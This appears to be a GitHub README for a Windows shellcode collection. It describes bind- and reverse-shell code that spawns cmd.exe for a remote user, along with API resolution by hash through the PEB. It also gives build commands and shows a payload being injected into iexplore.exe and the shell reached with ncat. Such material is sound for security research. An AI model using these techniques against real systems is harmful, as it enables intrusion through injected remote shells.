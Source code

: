 
## About ##

These are a collection of *Position Independent Code* (PIC) for Windows, tested on Windows NT released in 1996 up to Windows 10 released in 2015.

## Multimode codes ##

* **bind**

Bind to network address and port using **bind()** API. Upon incoming connection, spawn cmd prompt for remote user to interact with. 

* **connect**

Connect to a remote network address and port using **connect()** API. Upon connection, spawn cmd prompt for remote user to interact with.

# Files

* **getapi.c**

Obtains a list of DLLs (Dynamic Link Library) from the Process Environment Block (PEB) and attempts to search either the export or import directories for API based on hash.

* **x86.asm**

x86 assembly code to search PEB, import and export directories for API to link with getapi.c

* **x64.asm**

x64 assembly code to search PEB, import and export directories for API to link with getapi.c

* **x84.asm**

Multimode assembly which can run in either x86 or x64 mode to search PEB and export directories for API to link with getapi.c 

Currently, searching import directory is not implemented. 

* **reverse.asm**

Demonstrates multimode assembly to perform an outbound connection to remote host before executing cmd.exe for user interaction.

* **bind.asm**

Demonstrates multimode assembly to accept an inbound connection from remote host before executing cmd.exe for user interaction.

## Building ##

In the getapi folder is source code in C containing functions to search the import and export directories of a Portable Executable to resolve API addresses.

By default, getapi.c will search the export table but if you compile with IMPORT defined, getapi will search import tables instead.

To test out out, compile getapi.c using mingw or msvc

	gcc -DTEST getapi.c -ogetapi
    cl /DTEST getapi.c
 	
To use the multimode assembly that will run with either x86 or x86-64 mode, use YASM or NASM.
	
* **32-bit PE**

	<pre>yasm -fwin32 x84.asm -ox84.obj 
	cl /DTEST /DASM getapi.c x84.obj</pre> 

* **64-bit PE+**
 
	<pre>yasm -fwin64 x84.asm -ox84.obj
	cl /DTEST /DASM getapi.c x84.obj</pre>

## Testing getapi ##

After you've compiled EXE, simply provide the name of a DLL which exports API you need address for and the API name itself. 

getapi function will attempt to find the address of API based on CRC-32C hash.

	usage: getapi <DLL> <API>

The following screenshots are the bind shell running inside notepad launched from pi (Process Injector)

## Testing bind ##

For this, you need to use the process injector included or some other tool capable of the same.

For example, the following will inject bind.bin into 64-bit process of Internet Explorer.

	pi -fbind.bin iexplore.exe -x32

If successfully executed, cmd.exe will execute once you connect to the host on port 1234 using netcat, ncat or something similar.

	ncat -v4 localhost 1234

The following are screenshots of some legacy systems running the bind assembly code. 

## Windows NT ##

![alt text](https://github.com/odzhan/shellcode/blob/master/win/ss/winnt.png)

## Windows 2000 ##

![alt text](https://github.com/odzhan/shellcode/blob/master/win/ss/win2k.png)

## Windows XP ##

![alt text](https://github.com/odzhan/shellcode/blob/master/win/ss/winxp.png)
    
## Author ##

[@odzhancode](https://www.twitter.com/odzhancode "Follow me on Twitter")
1/28/2017 12:05:50 AM 
